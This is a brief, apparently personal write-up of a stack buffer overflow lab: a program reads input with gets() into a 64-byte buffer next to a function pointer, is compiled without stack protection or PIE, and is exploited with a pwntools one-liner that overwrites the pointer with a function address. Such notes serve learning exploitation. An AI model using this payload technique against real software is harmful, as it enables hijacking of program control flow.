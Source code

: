 the gets copy into buffer of size 64, the next value is function pointer which is called below

we could overwrite it with a address of a function that might wanna call

i had to compile the program with 

gcc -fno-stack-protector -no-pie program.c -o program

to make the function address static

use gdb or objdump to find the location of the function

python3 -c 'from pwn import *;print("A"*64 + "\x66\x11\x40");' | ./program

